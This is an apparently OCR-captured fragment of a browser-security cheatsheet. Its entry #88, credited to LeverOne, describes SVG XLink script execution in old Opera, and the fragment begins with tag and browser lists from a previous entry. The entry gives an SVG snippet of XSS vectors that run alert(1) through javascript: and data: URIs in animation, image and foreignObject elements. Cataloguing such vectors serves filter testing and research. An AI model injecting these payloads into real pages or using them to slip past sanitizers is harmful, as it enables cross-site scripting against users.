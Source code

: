 *   opera 9.x

*   opera latest

*   internet explorer 6.0

*   internet explorer latest

*   xss

*   svg
*   passive
*   xlink
*   chrome
*   firefox
*   safari
*   opera

*   [`www.w3.org/TR/SVG11/linking.html`](http://www.w3.org/TR/SVG11/linking.html)

*   [`www.w3.org/TR/SVGTiny12/linking.html`](http://www.w3.org/TR/SVGTiny12/linking.html)
*   #68
*   #81
*   #130

reporter：LeverOne

### SVG active JavaScript execution via XLink in Opera#88test

The content of the xml-links will be automatically included in the current document. The combination of "onLoad" (value of xlink:actuate) and "embed" (value of xlink:show) forms of potentially unsafe SVG-elements.

```
<svg  > <animation xlink:href="javascript:alert(1)"/> <animation xlink:href="data:text/xml,%3Csvg xmlns='http://www.w3.org/2000/svg' onload='alert(1)'%3E%3C/svg%3E"/> <image xlink:href="data:image/svg+xml,%3Csvg xmlns='http://www.w3.org/2000/svg' onload='alert(1)'%3E%3C/svg%3E"/> <foreignObject xlink:href="javascript:alert(1)"/> <foreignObject xlink:href="data:text/xml,%3Cscript xmlns='http://www.w3.org/1999/xhtml'%3Ealert(1)%3C/script%3E"/> </svg> 
```

*   opera 9.x
*   opera 12.0

*   xss

*   svg
*   active
*   xlink
*   opera

*   [`www.w3.org/TR/SVG11/attindex.html`](http://www.w3.org/TR/SVG11/attindex.html)

*   [`www.w3.org/TR/SVGTiny12/attributeTable.html`](http://www.w3.org/TR/SVGTiny12/attributeTable.html)
*   #95
*   #129
